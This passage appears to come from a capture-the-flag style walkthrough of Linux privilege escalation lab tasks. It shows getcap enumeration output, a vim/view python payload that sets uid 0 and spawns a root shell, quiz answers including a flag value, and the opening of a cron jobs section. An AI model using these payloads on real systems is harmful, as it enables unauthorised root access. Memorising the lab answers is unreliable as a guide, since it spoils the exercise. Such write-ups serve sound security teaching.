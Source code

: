 ```

![img](/assets/img/lpe38.png)

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

We notice that vim can be used with the following command and payload:

![img](/assets/img/lpe39.png)

This will launch a root shell as seen below;

![img](/assets/img/lpe40.png)


---

1. How many binaries have set capabilities?
Step 1 - 

```
getcap -r / 2>/dev/null
```

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_se
rvice,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
```

Step 2 - Search "View" capabilities in GTFOBINs

![img](/assets/img/lpe41.png)


```
cp $(which view) .
sudo setcap cap_setuid+ep view

./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

```
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

2. What other binary can be used through its capabilities?

   Answer: View

3. What is the content of the flag4.txt file?

   Answer: THM-9349843

---

Task 9 - Privilege Escalation: Cron Jobs
---

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
```